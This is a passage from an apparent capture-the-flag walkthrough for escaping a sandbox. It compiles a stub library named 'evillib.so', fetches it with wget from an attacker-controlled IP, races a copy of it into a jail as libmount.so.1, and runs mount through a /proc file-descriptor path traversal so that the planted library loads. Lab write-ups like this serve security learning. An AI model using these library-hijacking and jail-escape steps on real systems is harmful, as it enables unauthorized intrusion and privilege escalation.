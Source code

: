 ```c
int mnt_fs_get_target() { puts("mnt_fs_get_target got called !!"); return 0; }
int mnt_update_get_mflags() { puts("mnt_update_get_mflags got called !!"); return 0; }
int mnt_table_parse_swaps() { puts("mnt_table_parse_swaps got called !!"); return 0; }
int mnt_context_set_target_ns() { puts("mnt_context_set_target_ns got called !!"); return 0; }
int mnt_table_parse_stream() { puts("mnt_table_parse_stream got called !!"); return 0; }
int mnt_update_get_filename() { puts("mnt_update_get_filename got called !!"); return 0; }
int mnt_table_last_fs() { puts("mnt_table_last_fs got called !!"); return 0; }
int mnt_split_optstr() { puts("mnt_split_optstr got called !!"); return 0; }
int mnt_context_get_fstype() { puts("mnt_context_get_fstype got called !!"); return 0; }
```

```
$ gcc -shared -fPIC -o evillib.so evillib.c
```

Next we transfer it over to the machine and prepare the command to execute in sh to just paste it later since we are dealing with a limited timeframe.

```
clarence@scanned:/var/www/malscanner/sandbox$ wget 10.10.14.75:8000/evillib.so -O /tmp/evillib.so
--2022-02-02 20:41:40--  http://10.10.14.75:8000/evillib.so
Connecting to 10.10.14.75:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69752 (68K) [application/octet-stream]
Saving to: ‘/tmp/evillib.so’

/tmp/evillib.so                                             100%[==========================================================================================================================================>]  68.12K  --.-KB/s    in 0.09s

2022-02-02 20:41:40 (755 KB/s) - ‘/tmp/evillib.so’ saved [69752/69752]
```

For the execution we open up another ssh session where we will prepare the copying of the bad library. First we create a variable to hold the uuid for our jail. We do this to keep track which jail names are already blocked currently. Next is a sleep command so we can start the sandbox during the sleep and then the backdoored library gets copied into the created jail.

```
clarence@scanned:/var/www/malscanner/sandbox$ UNIQUE=1; sleep 2; cp /tmp/evillib.so /var/www/malscanner/sandbox/jails/$UNIQUE/lib/libmount.so.1
```

After we start the command with the sleep we run `/bin/sh` inside sandbox on our other ssh session specifying the same uuid.

```
clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /bin/sh 1
$
```

Once the copy command finishes we run our prepared mount command inside the sandbox's `/bin/sh`. There are some errors about no version information being available but at the end of the output we see that `mnt_init_debug` and `mnt_new_context` got called by `mount`.

```
$ /proc/1/fd/3/../../../../../../usr/bin/mount /dev/sda /tmp
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
/proc/1/fd/3/../../../../../../usr/bin/mount: /lib/libmount.so.1: no version information available (required by /proc/1/fd/3/../../../../../../usr/bin/mount)
```